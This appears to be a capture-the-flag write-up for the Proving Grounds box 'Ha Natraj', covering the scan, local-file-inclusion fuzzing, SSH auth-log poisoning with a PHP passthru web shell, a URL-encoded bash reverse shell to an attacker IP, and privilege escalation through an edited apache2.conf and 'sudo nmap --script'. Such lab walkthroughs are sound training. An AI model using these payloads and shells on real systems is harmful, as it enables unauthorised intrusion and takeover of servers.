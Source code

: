 ```yaml
---
layout: default
title: Ha Natraj
parent: Proving Grounds Play
nav_order: 3
---
```


# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.202.80
```

# Enumeration

---

## 80 - HTTP

### Wfuzz

Returns the directory _/console_

![wfuzz](../../../assets/images/ctfs/proving_grounds/ha_natraj/wfuzz.png)

_/console_ contains _file.php_ which is empty

Use wfuzz to fuzz a parameter and test for LFI.

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 0 "http://192.168.202.80/console/file.php?FUZZ=../../../../../../../etc/passwd"
```

![fuzz_lfi](../../../assets/images/ctfs/proving_grounds/ha_natraj/fuzz_lfi.png)

This reveals the parameter _file_.

Confirm LFI vulnerability by displaying _/etc/passwd_

![etc_passwd](../../../assets/images/ctfs/proving_grounds/ha_natraj/etc_passwd.png)

Users: natraj and mahakal
{: .warn }

# Exploitation

---

## SSH Auth Log Poisoning

Check if _/var/log/auth.log_ is visible.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log
```

![ssh_log](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_log.png)

Process for testing SSH auth log poisoning and RCE:

1. Netcat verbose to the target on port 22
2. Send malicious php code
3. Verify SSH auth log poisoning successful
4. Execute RCE with PHP cmd shell via poisoned log

Send PHP cmd shell through SSH via Netcat.

```bash
# netcat verbose to target on port 22
nc -nv 192.168.202.80 22

# send malicious php code
pwn_code/<?php passthru($_GET['cmd']); ?>
```

Verify SSH auth log is poisoned.

![ssh_poison](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_poison.png)

Execute RCE with PHP cmd shell via poisoned log.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=id
```

![cmd_rce](../../../assets/images/ctfs/proving_grounds/ha_natraj/cmd_rce.png)

Get reverse shell with URL encoded bash one-liner

```bash
URL: 192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

![rev_shell](../../../assets/images/ctfs/proving_grounds/ha_natraj/rev_shell.png)

# Post-Exploitation

---

## Upgrade to TTY Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

## Check SUDO Permissions

```bash
sudo -l
```

![sudo_l](../../../assets/images/ctfs/proving_grounds/ha_natraj/sudo_l.png)

We can exploit this to change the apache2.conf file to run as user 'mahakal' instead of 'www-data'.

If we restart Apache after doing this we will lose our shell, but when we regain our reverse shell connection we will be logged on as 'mahakal' instead of 'www-data'

```bash
# make a copy of apache2.conf and place in /var/tmp
cd /var/tmp
cp /etc/apache2/apache2.conf .

# Use sed to find the 'user' environment variable and replace with 'mahakal'
sed -i 's/User ${APACHE_RUN_USER}/User mahakal/g' apache2.conf

# Use sed to find the 'group' environment variable and replace with 'mahakal'
sed -i 's/Group ${APACHE_RUN_GROUP}/Group mahakal/g' apache2.conf

# Replace apache2.conf with the newly edited version
cp apache2.conf /etc/apache2/apache2.conf
```

Restart the Apache2 service.

```bash
sudo /bin/systemctl restart apache2
```

Regain our shell...

```bash
http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261%22
```

## Check Sudo Permissions for 'mahakal'

We are now logged on as _mahakal_ and can check this account's sudo permissions.

![mahakal_sudo](../../../assets/images/ctfs/proving_grounds/ha_natraj/mahakal_sudo.png)

If we create a binary in _/dev/shm_ and execute this with _nmap_ and the _--script_ flag will will have a root shell.

```bash
cd /dev/shm
echo 'os.execute("/bin/bash")' > rootshell
sudo /usr/bin/nmap --script=rootshell
```

![root](../../../assets/images/ctfs/proving_grounds/ha_natraj/root.png)
